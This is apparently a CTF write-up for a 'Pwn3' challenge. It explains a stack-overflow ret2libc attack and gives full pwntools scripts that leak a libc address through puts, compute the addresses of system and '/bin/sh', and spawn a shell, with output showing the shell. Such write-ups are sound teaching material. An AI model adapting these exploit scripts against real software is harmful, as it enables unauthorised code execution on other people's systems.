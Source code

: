 ```yaml
---
title: Pwn3
date: 2023-06-10
tags:
  - pwn
---
```


## Description of the challenge

This time you have nothing! Can you still exploit this?

Author: NoobMaster

## Solution

Running checksec on the binary, we notice the lack of canary and PIE, just like the ones before it.

```
$ checksec pwn3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   41 Symbols	  No	0		1		pwn3
```

Open the binary in Ghidra:

```c
void main(EVP_PKEY_CTX *param_1)
{
  char local_28 [32];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(local_28,0x50,stdin);
  puts("n00bz{f4k3_fl4g}");
  return;
}
```
We immediately notice the overflow on ``local_28``. This time, however, we have no win function and no ``system`` either. Since the binary is too small for a full ROP payload, it must mean that we have to ret2libc with ROP.

```
$ ROPgadget --binary pwn3 | grep ret
0x00000000004010eb : add bh, bh ; loopne 0x401155 ; nop ; ret
0x00000000004010bc : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x000000000040115a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004010be : add byte ptr [rax], al ; endbr64 ; ret
0x000000000040115b : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004010ea : add dil, dil ; loopne 0x401155 ; nop ; ret
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401157 : add eax, 0x2f0b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x000000000040122d : cli ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x00000000004010c3 : cli ; ret
0x000000000040123b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040122a : endbr64 ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x00000000004010c0 : endbr64 ; ret
0x0000000000401231 : in eax, 0x5f ; ret
0x0000000000401228 : leave ; ret
0x00000000004010ed : loopne 0x401155 ; nop ; ret
0x0000000000401156 : mov byte ptr [rip + 0x2f0b], 1 ; pop rbp ; ret
0x0000000000401230 : mov ebp, esp ; pop rdi ; ret
0x000000000040122f : mov rbp, rsp ; pop rdi ; ret
0x0000000000401227 : nop ; leave ; ret
0x00000000004011d8 : nop ; pop rbp ; ret
0x00000000004010ef : nop ; ret
0x0000000000401158 : or ebp, dword ptr [rdi] ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040115d : pop rbp ; ret
0x0000000000401232 : pop rdi ; ret
0x000000000040122e : push rbp ; mov rbp, rsp ; pop rdi ; ret
0x000000000040101a : ret
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040123d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000040123c : sub rsp, 8 ; add rsp, 8 ; ret
```
We find a ``pop rdi ; ret`` which is essential for passing ``/bin/sh`` to system. We have puts imported in the binary, which might help us leak a libc address and go from there. We can return to the PLT entry for puts, with the GOT entry as an argument (using ``pop rdi; ret``). Running this payload will conveniently print puts libc address. Then, we can find the libc version, using the [libc database search](https://libc.blukat.me/).

Afterwards, by downloading the found libc version and running it with gdb locally, we can find offsets from puts to everything else. We can even search for ``/bin/sh`` and calculate the offsets, using search-pattern from [gef](https://github.com/hugsy/gef). Exploit to leak:

```py
#!/usr/bin/env python3
from pwn import *

#target = process("./pwn3")
target = remote("challs.n00bzunit3d.xyz", 42450)

pop_rdi = p64(0x0000000000401232)

puts_plt = p64(0x00401060)
puts_got = p64(0x00404018)

target.recvuntil(b'flag?')
payload = b"a" * 0x28 + pop_rdi + puts_got + puts_plt
target.sendline(payload)
target.recvline()
target.recvline()
puts_leak = u64(target.recvline().strip().ljust(8, b'\x00'))
print(puts_leak)
print(hex(puts_leak))
```

We run the payload, get the address leak, find the libc versions and the offsets, and further fill in our exploit. An important step to take into account is the fact that we already waste all our inputs by leaking puts. So we should return to the main function at the end of our ROP chain, to abuse more inputs!

```py
#!/usr/bin/env python3

from pwn import *

libc = ELF("./libc6_2.34-0ubuntu3_amd64.so") # the found libc version
#target = process("./pwn3")
target = remote("challs.n00bzunit3d.xyz", 42450)

pop_rdi = p64(0x0000000000401232)
ret = p64(0x000000000040101a) # align stack to 16-bytes again for system call

main_addr = p64(0x004011db)
puts_plt = p64(0x00401060)
puts_got = p64(0x00404018)

target.recvuntil(b'flag?')
payload = b"a" * 0x28 + pop_rdi + puts_got + puts_plt + main_addr # go back to main for more inputs
target.sendline(payload)
target.recvline()
target.recvline()
puts_leak = u64(target.recvline().strip().ljust(8, b'\x00'))
print(puts_leak)
print(hex(puts_leak))


system_addr = p64(puts_leak - 0x30170) # offset found with gdb/gef
print(system_addr)

sh_addr = p64(puts_leak + 0x1577c8) # found with search-pattern /bin/sh in gef

payload = b"a" * 0x28 + ret + pop_rdi + sh_addr + system_addr

#gdb.attach(target)

target.sendline(payload)
target.interactive()
```
Run the exploit:
```
$ ./solve.py 
[*] '/home/sunbather/ctf/noobctf/pwn/pwn_series3/libc6_2.34-0ubuntu3_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './pwn3': pid 25635
140139460824784
0x7f74c2c80ed0
b'`\r\xc5\xc2t\x7f\x00\x00'
[*] Switching to interactive mode
Would you like a flag?
n00bz{f4k3_fl4g}
$ whoami
sunbather
```
Aaand we have a shell. Thanks for flying with .hidden airlines!

Note: pwntools has some functionality to automate finding offsets to libc, but for some reason I couldn't get it to work properly. Admittedly, it was my first time fiddling with it and was too lazy to make it work.
